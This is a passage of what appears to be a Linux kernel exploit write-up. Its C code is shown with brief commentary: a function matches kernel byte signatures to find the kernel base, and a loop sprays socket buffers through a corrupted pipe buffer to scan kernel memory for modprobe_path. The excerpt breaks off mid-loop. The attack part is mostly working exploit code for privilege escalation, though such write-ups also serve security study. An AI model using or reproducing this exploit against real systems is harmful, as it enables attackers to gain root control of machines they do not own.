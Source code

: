 
Notice that on line 39 we call the is_kernel_base() function.
This function is based on an exploit from Lalu that basically matches some byte patterns that may be present in the kernel base page in various builds, 
to maximize compatibility.

```c
...
static bool is_kernel_base(unsigned char *addr)
{
    // thanks lau :)

    // get-sig kernel_runtime_1
    if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
        memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff", 7) == 0)
        return true;

    // get-sig kernel_runtime_2
    if (memcmp(addr + 0x0, "\xfc\x0f\x01\x15", 4) == 0 &&
        memcmp(addr + 0x8, "\xb8\x10\x00\x00\x00\x8e\xd8\x8e\xc0\x8e\xd0\xbf", 12) == 0 &&
        memcmp(addr + 0x18, "\x89\xde\x8b\x0d", 4) == 0 &&
        memcmp(addr + 0x20, "\xc1\xe9\x02\xf3\xa5\xbc", 6) == 0 &&
        memcmp(addr + 0x2a, "\x0f\x20\xe0\x83\xc8\x20\x0f\x22\xe0\xb9\x80\x00\x00\xc0\x0f\x32\x0f\xba\xe8\x08\x0f\x30\xb8\x00", 24) == 0 &&
        memcmp(addr + 0x45, "\x0f\x22\xd8\xb8\x01\x00\x00\x80\x0f\x22\xc0\xea\x57\x00\x00", 15) == 0 &&
        memcmp(addr + 0x55, "\x08\x00\xb9\x01\x01\x00\xc0\xb8", 8) == 0 &&
        memcmp(addr + 0x61, "\x31\xd2\x0f\x30\xe8", 5) == 0 &&
        memcmp(addr + 0x6a, "\x48\xc7\xc6", 3) == 0 &&
        memcmp(addr + 0x71, "\x48\xc7\xc0\x80\x00\x00", 6) == 0 &&
        memcmp(addr + 0x78, "\xff\xe0", 2) == 0)
        return true;

    return false;
}
...
```

The next step we will get the physical address `modprobe_path`:

```c
...
// Scan kernel memory
    uint64_t modprobe_page, modprobe_off;
    uint32_t pipe_idx;
    uint64_t base_off = 0;
    puts("[*] scanning kernel memory");
    for (uint64_t i = 0;; i++)
    {
        pipebuf->page = vmemmap_base + kernel_base + 0x40 * i;
        pipebuf->offset = 0;
        pipebuf->len = PAGE_SIZE + 1;

        if (!(i % 1000))
        {
            printf("\r[*] trying 0x%lx, %iMb", pipebuf->page, i * 4096 / 1024 / 1024);
        }
        for (int i = 0; i < SKBUF_SPRAY; i++)
        {
            if (write(sock[i][0], pipebuf, 1024 - 320) < 0)
            {
                perror("\n[-] write(socket)");
                return -1;
            }
        }

```
